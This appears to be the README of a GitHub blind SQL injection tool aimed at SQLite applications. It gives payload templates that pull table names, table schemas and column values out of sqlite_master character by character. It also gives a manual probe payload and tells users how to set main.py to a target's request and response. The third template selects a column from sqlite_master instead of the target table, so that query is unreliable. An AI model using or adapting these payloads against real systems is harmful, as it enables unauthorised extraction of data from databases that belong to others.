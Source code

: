 ## SQLiteBLINDInjection <br/> [Author](https://github.com/aykutcanustun): aykutcanustun

## How To Set Queries:
To retrieve table names from database: <br/>
' or UNICODE(SUBSTR((SELECT name FROM sqlite_master WHERE type='table'),{},1)){} {} -- <br/><br/>
To retrieve table schema: <br/>
' or UNICODE(SUBSTR((SELECT sql FROM sqlite_master WHERE tbl_name='$TABLE_NAME'),{},1)){} {} -- <br/><br/>
To retrieve values inside column: <br/>
' or UNICODE(SUBSTR((SELECT $COLUMN_NAME FROM sqlite_master WHERE tbl_name='$TABLE_NAME'),{},1)){} {} -- <br/><br/>
**Replace $TABLE_NAME and $COLUMN_NAME with data that you retrieved from privious query!**

## How To Set Varibles:
To use the script, you have to set varibles according to your request's header, data and response etc. <br/>
I marked these lines with comments in main.py! <br/>
Make changes at these lines: <br/>
![replacements](https://github.com/aykutcanustun/SQLiteBLINDInjection/blob/master/replacements.png) <br/>
Replace "username" string with your request's data as below: <br/>
![request](https://github.com/aykutcanustun/SQLiteBLINDInjection/blob/master/request.png) <br/>
You have to make this request manually to see what is the response: <br/>
' or UNICODE(SUBSTR((SELECT name FROM sqlite_master WHERE type='table'),1,1)) < 128 -- <br/>
And replace "Data Sent!" string according to your manual request's reply: <br/>
![response](https://github.com/aykutcanustun/SQLiteBLINDInjection/blob/master/response.png)
